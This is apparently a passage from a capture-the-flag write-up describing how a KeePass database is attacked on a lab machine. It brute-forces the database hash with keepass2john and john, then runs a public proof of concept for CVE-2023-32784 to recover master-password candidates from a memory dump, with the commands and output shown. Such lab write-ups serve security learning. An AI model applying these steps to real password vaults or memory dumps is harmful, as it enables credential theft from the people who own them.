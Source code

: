 ```
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```
There is a dump file of the application KeePass and a file `kdbx` which is a database for this application. We will try to get passwords from this file using `keepass2john` and `john`. First of all, we will transfer the file in our machine:
```
$scp  lnorgaard@10.129.59.214:~/passcodes.kdbx passcodes.kdbx
```
To run the bruteforce, I first need to find back the hashes from the KeePass database and then run john:
```
$keepass2john passcodes.kdbx > hash
$john --wordlist=/usr/share/wordlists/rockyou.txt
```
The analysis takes soooo loooong that I have time to find another way to crack this. I am wondering if I could get something from the dump file:
```
$file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
This dump file can be opened from `Ghidra` but I did not find anything interesting from there. I also opened it using `radare2` but I was unable to get a stacktrace neither reading the heap. I also tried to get the strings from the dump file to do a dictionnary attack but it seems there are too many possibility:
```
$strings KeePassDumpFull.dmp | wc -l
1988198
```
While I was searching what I could do with this dump file, I found [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) that says that in versions 2.x before 2.54, it is possible to recover the master password from a memory dump. I found an [exploit in Python](https://github.com/CMEPW/keepass-dump-masterkey) and get these possibilities from the master password. Before using it, I should check the version of KeePass is vulnerable to the exploit. I do not know if my method is correct but, by looking at the strings in the dump file, the version seems to be 2.53.1 so it is vulnerable to the exploit:
```
$strings KeePassDumpFull.dmp | grep "2\.5"
2.53.1.0
				<bindingRedirect oldVersion="2.0.9.0-2.53.1.0"
					newVersion="2.53.1.20815" />
				<bindingRedirect oldVersion="2.0.9.0-2.53.1.0"
					newVersion="2.53.1.20815" />
*<.wZ@2;/-??-?0;.PX\SSSSW02.5EA
2.5.29.10
2.5.29.19
```
Let's use it:
```
$python3 ~/github/keepass-dump-masterkey/poc.py KeePassDumpFull.dmp 
2023-09-25 19:37:20,758 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
